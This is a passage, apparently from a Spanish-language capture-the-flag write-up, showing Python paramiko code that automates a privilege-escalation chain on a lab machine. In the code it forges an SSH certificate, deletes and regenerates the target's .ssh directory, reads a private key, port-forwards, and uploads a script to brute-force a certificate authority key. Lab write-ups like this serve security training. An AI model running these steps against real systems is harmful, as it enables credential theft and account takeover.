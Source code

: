 ```python3
	new_supported = stdout.read().decode()
	# Para luego añadirlo al nuevo archivo creado
	modify_file(new_supported)
	# Añade el nuevo archivo al directorio /tmp
	sftp_client = client.open_sftp()
	sftp_client.put("sign_key_api_new.sh","/tmp/sign_key_api.sh")

	os.remove("sign_key_api_new.sh")
	#Y ejecuta el nuevo certificado para el usuario zzinter, pero ahora con el nuevo script
	client.exec_command('bash /tmp/sign_key_api.sh .ssh/id_rsa.pub test zzinter_temp > cert_z')

	client.exec_command('chmod 600 cert_z')
	# Mediante la conexión via SSH directamente, crea el archivo 'authorized_keys'
	client.exec_command('ssh -p 2222 -o StrictHostKeyChecking=no -o CertificateFile=cert_z -i ~/.ssh/id_rsa zzinter@172.223.0.1 rm -r .ssh\; mkdir .ssh\; ssh-keygen -f .ssh/id_rsa -N \\"\\"\; cp .ssh/id_rsa.pub .ssh/authorized_keys')

	time.sleep(4)

	stdin, stdout, stderr = client.exec_command('ssh -p 2222 -o StrictHostKeyChecking=no -o CertificateFile=cert_z -i ~/.ssh/id_rsa zzinter@172.223.0.1 cat .ssh/id_rsa')
	# Guarda el contenido de la clave privada
	priv_key = stdout.read().decode('utf-8')
	# Crea la clave privada para el usuario zzinter
	with open("id_rsa_z", "w") as f:
		f.write(priv_key)

	client.close()

get_auth_principals()
```

En la función **get_cert**, accede como el usuario zzinter, no sin antes realizar el Local Port Forwarding, para luego subir el script que descubrira mediante fuerza bruta la clave privada de la entidad certificadora y así poder crear el certificado, que se utilizará para poder crear como el usuario root, el authorized_keys y conseguir el contenido del **id_rsa**.

```python3
def get_cert():
	# Realiza un Local Port Forwarding aprobechando la conexión por SSH, convirtiendo el puerto 2222
	# a nuestro puerto 8080
	os.system("ssh -i id_rsa zzinter@10.10.11.27 -L 8080:172.223.0.1:2222 -Nf")

	time.sleep(4)

	# Cargar la clave privada convertida
	priv_key = paramiko.RSAKey.from_private_key_file("id_rsa_z")

	# Configurar el cliente SSH
	client = paramiko.SSHClient()
	client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

	time.sleep(4)

	# Conectar al servidor por el puerto 8080
	client.connect("127.0.0.1", port=8080, username="zzinter", pkey=priv_key)
	# Sube el archivo para descubrir la clave privada por fuerza bruta
	sftp_client = client.open_sftp()
	sftp_client.put("bruteforce_key.sh","bruteforce_key.sh")

	client.exec_command('chmod +x bruteforce_key.sh')

	client.exec_command('./bruteforce_key.sh')
```